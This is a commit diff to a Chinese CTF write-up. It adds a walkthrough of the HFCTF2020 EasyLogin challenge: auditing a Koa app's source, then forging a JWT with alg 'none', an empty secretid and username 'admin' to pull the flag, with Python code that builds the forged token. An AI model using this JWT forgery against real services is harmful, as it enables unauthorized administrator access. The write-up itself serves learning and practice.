

Before and after one commit to 181726943/writeup, a Markdown page: ctf-wp.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
HFCTF2020EasyLogin(JWT伪造)

````diff
--- a/ctf-wp.md
+++ b/ctf-wp.md
@@ -1295,6 +1297,76 @@ so:
     得到payload后，利用bp修改become的值为payload
 
     *注意 : 每次发送请求都要将jwt中的username改为admin*
+
+## HFCTF2020EasyLogin(JWT伪造)
+
+**考点**
+- JS代码审计
+- jwt漏洞破解
+
+1. 查看网页源码，发现有个app.js,之所以注意到这个，是因为它和其他的js脚本位置不一样，感觉不像是普通的js脚本。在网络选项卡中有个与app.js有关的请求。双击就能看到app.js源码。
+2. 根据源码提示，这道题采用了koa框架
+
+    koa项目文件框架
+    ```lua
+    |-- root
+    |   |-- app
+    |   |   |-- controllers  //控制器业务逻辑
+    |   |   |   |-- xx.js
+    |   |   |   |-- xx.js
+    |   |   |-- routes
+    |   |   |   |-- xx.js
+    |   |   |   |-- xx.js
+    |   |   |-- node_moudles  //各个功能实现代码
+    |   |   |   |-- xx.js
+    |   |   |   |-- xx.js
+    ```
+    按照koa框架的常见结构去获取下控制器文件的源码。
+
+    `/controllers/api.js`
+
+    `/api/flag`路径校验为admin用户时才会返回flag，而登录验证方式采用的是JWT，所以可以尝试对JWT进行破解修改。，并且生成JWT是用HS256加密，可以把它改为`none`来进行破解。标题中的`alg`字段更改为`none`，有些JWT库支持无算法，即没有签名算法。当alg为none时，后端将不执行签名验证。 此外对于本题中验证采用的密匙`secret`值也需要为空或者`undefined`否则还是会触发验证，所以将JWT中`secretid`项修改为`[]`。
+
+    综上所述，一共要修改三个地方：
+
+    - 第一个是username，修改为admin
+
+    - 第二个是alog，修改为none
+
+    - 第三个是secretid，修改为[]
+
+    首先，要获取自己的jwt值，需要用burpsuite登录抓包
+
+    然后复制authorization后面的内容，也就是自己的jwt,可以用bp的jwt插件解码，获取自己的jwt值，生成新的jwt，JWT前两部分都是base64加密，加密脚本如下：
+
+    ```python
+    # 这种方式需要把'='去掉，然后加'.'最后把两个值拼在一起
+    import base64
+
+    header = '{"alg":"none","typ":"JWT"}'
+    payload = '{"secretid":[],"username":"admin","password":"aaa","iat":1713526181}'
+
+    print(base64.b64encode(header.encode('utf-8')))
+    print(base64.b64encode(payload.encode('utf-8')))
+    # 或
+    # 这种方式需要提前安装jwt库
+    import jwt
+
+    token = jwt.encode(
+    {
+    "secretid": [],
+    "username": "admin",
+    "password": "123",
+    "iat": 1662825424  # 在burpsuite里拿到的jwt里的iat值。
+    },
+    algorithm="none",key="").encode(encoding='utf-8')
+
+    print(token)
+    ```
+
+    得到新的token后重新赋值给authorization，放包，返回浏览器,点那个获取flag的按钮会发送一个flag的请求，网络选项卡相应里面有flag，或者可以直接访问/api/flag也能拿到。
+
+    *这里要注意username和password要和新生成的jwt中的一致*
 
 ## SUCTF2019 CheckIn(文件上传漏洞)
 
````
Also changed, not shown: other parts of ctf-wp.md (+2 -0 lines).
